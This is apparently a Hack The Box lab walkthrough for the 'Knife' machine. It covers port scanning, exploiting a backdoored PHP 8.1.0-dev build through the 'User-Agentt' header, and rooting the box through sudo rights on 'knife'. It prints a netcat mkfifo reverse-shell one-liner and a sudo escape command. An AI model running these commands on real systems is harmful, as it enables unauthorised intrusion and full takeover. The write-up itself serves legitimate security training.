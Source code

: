 # HTB - Knife

#### Ip: 10.10.10.242
#### Name: Knife
#### Rating: Easy

----------------------------------------------------------------------

![Knife.png](../assets/knife_assets/Knife.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:28 CDT
Nmap scan report for 10.10.10.242
Host is up (0.071s latency).
Not shown: 65384 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```  

Lets dive a bit deeper and scan ports 22 and 80 using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -sC -sV -T4 10.10.10.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:30 CDT
Nmap scan report for 10.10.10.242
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

Because we will most likely get a foothold using a web based exploit, it never hurts to kick of a Nikto scan, and see if there is some low hanging fruit.

Looking over the results we can see Nikto identified PHP/8.1.0-dev. From past experience I recall there may have been a vulnerability or a backdoor with this version.

![nikto.png](../assets/knife_assets/nikto.png) 

Heading over to Google confirms there is indeed a backdoor in this version, and it is easily exploitable. 

While is is definitely possible to exploit this backdoor manually in BurpSuite, today I'm going to utilize this exploit found on ExploitDB: https://www.exploit-db.com/exploits/49933. 

In the comments the exploit mentions:

"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell on the host."

Taking a closer look at the exploit we can see that we will be appending a cmd to the user-agentt field:

![user-agentt.png](../assets/knife_assets/user-agentt.png)

Let's fire off the exploit and try and get onto the box.

### Exploitation

After copying the script to my exploits folder, I execute the exploit and get a pseudo-shell as user James. 

![exploit.png](../assets/knife_assets/exploit.png)

This is all well and good, but I'd prefer a proper reverse shell, that way I can keep some persistence on the box in case the pseudo-shell crashes.

To do this I simply set up a netcat listener and issue this one-liner:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
```

I can now stabilize the shell using Python:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And grab the first flag:

![user_flag.png](../assets/knife_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` I can see that user James can run `knife` with root permissions:

```text
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

According to the man-pages:

"knife  is a command-line tool that provides an interface between a local chef-repo and the Chef server."

Lets take a look at https://gtfobins.github.io/ to see if we can find a way to exploit this:

![gtfobins.png](../assets/knife_assets/gtfobins.png)

Cool, so looks like we simply have to run `sudo knife exec -E 'exec "/bin/sh"'` to escalate to root:

```text
james@knife:~$ whoami
whoami
james
james@knife:~$ 

    sudo knife exec -E 'exec "/bin/sh"'


james@knife:~$ 
james@knife:~$     sudo knife exec -E 'exec "/bin/sh"'
# # whoami
whoami
root
```

Nice! All that's left to do now is grab the root flag!

![root_flag.png](../assets/knife_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------
